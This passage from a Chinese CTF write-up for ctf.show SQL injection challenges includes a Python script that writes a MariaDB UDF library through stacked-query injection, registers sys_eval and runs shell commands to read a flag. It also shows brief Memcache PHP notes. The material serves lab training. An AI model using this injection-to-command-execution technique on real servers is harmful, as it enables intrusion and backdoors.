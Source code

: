 不过这道题是get传值，所以有长度限制，就得分段来传。可以先生成多个文件，再通过concat拼接成完整的so文件。

参考博客：[【https://www.sqlsec.com/tools/udf.html】](https://www.sqlsec.com/tools/udf.html)

在这个大佬博客里找到**64位linux的16进制payload，赋值给脚本里的udf变量**

太厉害了，膜拜大佬。sql注入漏洞变成后门/提权，突然觉得很行

```python
import requests
url="http://2e9c2d13-5f3c-4a05-ab49-0d087d673b98.challenge.ctf.show/api/"
udf=""
udfs=[]
for i in range(0,len(udf),5000):
    udfs.append(udf[i:i+5000])
#写入多个文件中
for i in udfs:
    url1=url+f"?id=1';SELECT '{i}' into dumpfile '/tmp/"+str(udfs.index(i))+".txt'%23"
    requests.get(url1)

#合并文件生成so文件
url2=url+"?id=1';SELECT unhex(concat(load_file('/tmp/0.txt'),load_file('/tmp/1.txt'),load_file('/tmp/2.txt'),load_file('/tmp/3.txt'))) into dumpfile '/usr/lib/mariadb/plugin/hack.so'%23"
requests.get(url2)

#创建自定义函数并执行恶意命令
requests.get(url+"?id=1';create function sys_eval returns string soname 'hack.so'%23")
r=requests.get(url+"?id=1';select sys_eval('cat /f*')%23")
print(r.text)
```

这个脚本简单跑出flag，换成其他命令，看到当前是mysql服务在运行，以及其他信息

![248](https://the0n3.top/medias/show-sql/248.png)

## web 249 nosql

只有一句sql语句

![249](https://the0n3.top/medias/show-sql/249.png)

Memcache缓存数据库，他在php中的用法是：

```php
$m=new Memcache();
$m->connect($host,$port);
$m->add($key,$value[,flags,$expire_time]);
$content=$m->get($key);
$m->close();
```

php官方解释，传递一个数组，会返回服务器查询到的数组键值对

![2491](https://the0n3.top/medias/show-sql/2491.png)
